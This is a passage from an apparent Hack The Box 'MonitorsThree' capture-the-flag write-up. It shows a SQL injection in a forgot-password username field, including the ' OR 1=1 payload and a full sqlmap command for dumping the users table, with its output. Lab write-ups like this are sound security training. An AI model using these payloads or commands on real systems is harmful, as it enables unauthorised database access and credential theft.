 ![alt text](/assets/blog/HTB-MonitorsThree/sqli.png)
- Furthermore, the username parameter is Vulnerable to SQL injection attacks.

### SQLI

The Sql injection previously found manually was confirmed leveraged automatically with sqlmap tool and successfully dumped usernames and password hashes

```bash
[Jan 17, 2025 - 11:49:06 ] htb monitors3 ➜  sqlmap -r request.txt --random-agent --level=5 --risk=3 -D monitorsthree_db -T users -C username --dump --technique=BEUS        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.11.9#dev}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:39:21 /2025-01-17/

[12:39:21] [INFO] parsing HTTP request from 'request.txt'
[12:39:21] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux x86_64; es-ES; rv:1.9.0.4) Gecko/2008111217 Fedora/3.0.4-1.fc10 Firefox/3.0.4' from file '/opt/tools/sqlmap/data/txt/user-agents.txt'
[12:39:22] [WARNING] it appears that you have provided tainted parameter values ('username=' OR 1=1-- --') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
it appears that provided value for POST parameter 'username' has boundaries. Do you want to inject inside? ('' OR 1=1*-- --') [y/N] y
[12:39:24] [INFO] resuming back-end DBMS 'mysql'
[12:39:24] [INFO] testing connection to the target URL
got a 302 redirect to 'http://monitorsthree.htb/forgot_password.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: stacked queries
```